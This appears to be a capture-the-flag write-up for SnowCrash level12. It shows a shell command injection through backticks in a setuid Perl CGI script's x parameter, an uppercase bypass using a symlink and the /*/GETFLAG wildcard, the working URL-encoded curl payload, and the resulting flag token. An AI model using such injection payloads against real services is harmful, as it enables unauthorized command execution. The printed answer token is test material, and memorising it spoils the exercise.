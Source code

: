Level 12
========

*	We spawn with a `level12.pl` script
	```console
	level12@SnowCrash:~$ ls -l 
	total 4
	-rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
	```
*	When we look at it we can see that in summary it is a CGI script on port `4646` that takes parameters `x` and `y` from an HTTP request , process them and print some output based on the result
	```perl
	# localhost:4646
	```
*	This exerice is similar to `level06` so it shouldn't be too hard
*	The line important for us is this one, which will allow us to execute any command
	```perl
	@output = `egrep "^$xx" /tmp/xd 2>&1`;
	```
*	It is a bit tricky since we need to use this to execute `getflag` but everything wil be uppercased because of this
	```perl
	$xx =~ tr/a-z/A-Z/; 
	```
	The command searches for lines in the file `/tmp/xd` that start with the pattern stored in the variable `$xx` and redirect errors in `stdout`
*	Let's do this :
	```console
	level12@SnowCrash:~$ ln -s /bin/getflag /tmp/GETFLAG
	```
	*	We need nee to use backticks in our curl so that it get executed as shell 
	*	We also need to put a wildcard before our file so that the script ignore the upper case obligation and just take all
*	Now that we now that let's use curl to make the code execute the symbolic link
	*	The result will be stored in apache error log
	```console
	level12@SnowCrash:~$ curl 'localhost:4646?x=`/*/GETFLAG>&2`'
	level12@SnowCrash:~$ tail /var/log/apache2/error.log 
	[Wed Feb 07 12:58:57 2024] [error] [client 127.0.0.1] sh: 1: 
	[Wed Feb 07 12:58:57 2024] [error] [client 127.0.0.1] Syntax error: EOF in backquote substitution
	```
*	Looks like it doesn't work because we need to [encode](https://www.urlencoder.org/) `/*/GETFLAG>&2` the right way
	```console
	level12@SnowCrash:~$ curl 'localhost:4646?x=`%2F%2A%2FGETFLAG%3E%262`'
	level12@SnowCrash:~$ tail /var/log/apache2/error.log
	[error] [client 127.0.0.1] Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
	```